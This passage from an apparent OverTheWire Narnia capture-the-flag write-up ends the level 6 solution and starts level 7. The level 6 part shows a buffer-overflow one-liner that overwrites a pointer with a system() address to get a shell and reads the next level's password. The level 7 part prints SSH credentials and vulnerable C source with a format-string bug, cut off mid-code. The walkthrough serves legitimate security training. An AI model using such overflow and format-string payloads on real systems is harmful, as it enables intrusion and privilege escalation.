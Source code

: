 We got a shell ! Now, let's do the same outside GDB.

```bash
narnia6@narnia:/narnia$ ./narnia6 $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
ahkiaziphu
``` 

Done !

## Narnia 07 Solution

**SSH :** *ssh narnia7@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *ahkiaziphu*

First, let's try to execute the program...

```bash
$ ssh narnia7@narnia.labs.overthewire.org -p 2226

cd /narnia/
narnia7@narnia:/narnia$ ./narnia7
Usage: ./narnia7 <buffer>
narnia7@narnia:/narnia$ ./narnia7 test
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd648)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

Looks like we need to redirect the execution flow somehow...

### Source Code

Let's check the source.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);
```